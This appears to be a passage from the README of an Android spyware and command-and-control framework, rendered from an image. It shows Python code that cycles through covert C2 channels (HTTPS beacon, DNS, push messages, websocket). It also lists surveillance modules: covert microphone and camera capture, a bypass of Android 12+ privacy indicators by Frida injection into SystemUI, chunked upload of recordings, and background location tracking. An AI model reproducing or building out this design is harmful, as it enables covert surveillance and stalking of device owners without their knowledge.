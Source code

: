 ### 3. **Multi-Profile Communication Strategy**

```python
# C2 Profile Priority and Fallback
PRIMARY_PROFILE = "https_beacon"      # Main communication channel
FALLBACK_PROFILES = [
    "dns_covert",                     # Stealth fallback
    "fcm_push",                       # Real-time fallback
    "websocket"                       # Direct fallback
]

# Communication Logic
async def communicate_with_c2():
    for profile in [PRIMARY_PROFILE] + FALLBACK_PROFILES:
        try:
            if await test_profile_connectivity(profile):
                return await use_profile(profile)
        except Exception as e:
            log_profile_error(profile, e)
            continue
    
    # All profiles failed - enter offline mode
    await enter_offline_mode()
```

---

## 🧩 Module Ecosystem

### 1. **Surveillance Modules**

#### **Stealth Surveillance** (`stealth_surveillance.py`)
```python
Features:
├── Covert Microphone Activation
├── Stealth Camera Capture  
├── Privacy Indicator Bypass (Android 12+)
├── Continuous Recording with Chunked Uploads
├── Native Code Integration for Bypass
└── Frida Script Injection for SystemUI Hook
```

#### **Location Tracker** (`location_tracker.py`)
```python
Features:
├── GPS Coordinate Collection
├── Network-Based Location
├── Historical Location Data
├── Geofencing Capabilities
└── Background Location Tracking
```
